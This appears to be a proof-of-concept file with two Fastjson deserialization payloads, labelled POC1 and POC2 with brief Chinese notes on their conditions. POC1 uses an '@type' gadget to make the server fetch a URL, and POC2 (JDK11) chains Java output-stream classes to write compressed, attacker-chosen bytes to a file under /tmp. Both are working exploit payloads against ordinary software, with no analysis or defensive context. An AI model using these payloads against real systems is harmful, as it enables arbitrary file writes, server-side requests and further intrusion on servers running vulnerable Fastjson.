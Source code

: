 # POC1

条件：使用selenium-api

··· 
{"@type":"java.lang.Exception","@type":"org.joychou.DatasourceException", "dataSource": {"@type": "java.net.URL", "val": "http://127.0.0.1:8888/fastjson"}}
··· 

# POC2

条件：jdk11环境

··· 
{
"@type": "java.lang.AutoCloseable",
"@type": "sun.rmi.server.MarshalOutputStream",
"out": {
"@type": "java.util.zip.InflaterOutputStream",
"out": {
"@type": "java.io.FileOutputStream",
"file": "/tmp/asdasd",
"append": true
},
"infl": {
"input": {
"array": "eJxLLE5JTCkGAAh5AnE=",
"limit": 14
}
},
"bufLen": "100"
},
"protocolVersion": 1
}
··· 
